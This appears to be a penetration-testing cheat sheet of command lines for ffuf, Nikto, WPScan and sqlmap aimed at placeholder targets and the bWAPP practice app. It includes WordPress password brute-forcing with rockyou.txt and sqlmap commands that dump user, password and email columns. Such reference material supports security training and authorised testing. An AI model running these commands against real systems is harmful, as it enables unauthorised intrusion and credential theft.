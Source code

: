 ```
ffuf -w wordlist.txt -u http://example.com/FUZZ -e .aspx,.php,.txt,.html
## Output of responses with status code:
ffuf -w /usr/share/wordlists/dirb/small.txt -u http://example.com/FUZZ -mc 200,301
## The -maxtime flag offers to end the ongoing fuzzing after the specified time in seconds:
ffuf -w wordlist.txt -u http://example.com/FUZZ -maxtime 60
## Number of threads:
ffuf -w wordlist.txt -u http://example.com/FUZZ -t 64

# Nikto
nikto -h http://<TARGET_IP> -o niktoscan.txt

nikto -h http://<TARGET_IP>/index.php?page=arbitrary-file-inclusion.php -Tuning 5 -o nikto.html -Format htm

#WPScan
wpscan --url http://<TARGET_IP>--enumerate u
wpscan --url http://<TARGET_IP> -e vp --plugins-detection mixed --api-token API_TOKEN
wpscan --url http://<TARGET_IP> -e u --passwords /usr/share/wordlists/rockyou.txt
wpscan --url http://<TARGET_IP> -U admin -P /usr/share/wordlists/rockyou.txt
```

**Attacks**



**SQLMap**



**Check if injection exists**

```
sqlmap -r <REQUEST_FILE> -p <POST_PARAMETER>
sqlmap -r Post.req

sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title

sqlmap -u "http://10.10.10.10/file.php?id=1" -p id          #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"      #POST Method
```

**Get database if injection Exists**

```
sqlmap -r login.req --dbs
sqlmap -u "http://10.10.10.10/file.php?id=1" --dbs    #determine the databases:
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs    #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs #POST Method

# List databases
sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title --dbs
sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP --tables
sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users --columns
sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump
```
